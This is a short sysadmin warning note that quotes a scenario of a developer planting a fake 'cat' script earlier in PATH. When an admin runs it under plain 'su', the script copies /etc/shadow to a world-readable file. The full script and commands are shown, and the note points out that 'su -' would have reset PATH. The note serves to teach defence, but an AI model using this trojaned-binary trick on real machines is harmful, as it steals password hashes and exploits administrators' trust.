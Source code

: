 ### sysadmin-notes# Beware of rogue developers
Something like this could happen:

"Imagine, you're a software developer with normal user access to a machine and your ignorant admin just won't give you root access. Let's (hopefully) trick him.

$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; }
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0

$ chmod +x /tmp/evil_bin/cat
$ PATH="/tmp/evil_bin:$PATH"
Now, you ask your admin why you can't cat the dummy file in your home folder, it just won't work!

$ ls -l /home/you/dummy_file
-rw-r--r-- 1 you wheel 41 2011-02-07 13:00 dummy_file
$ cat /home/you/dummy_file
/bin/cat: Permission denied!
If your admin isn't that smart or just a bit lazy, he might come to your desk and try with his super-user powers:

$ su
Password: ...
cat /home/you/dummy_file
Some important dummy stuff in that file.
exit
Wow! Thanks, super admin!

$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2011-02-07 13:02 /tmp/shadow_copy
He, he.

You maybe noticed that the corrupted $PATH variable was not reset. This wouldn't have happened, if the admin invoked su - instead."
Some people are like that. So beware.
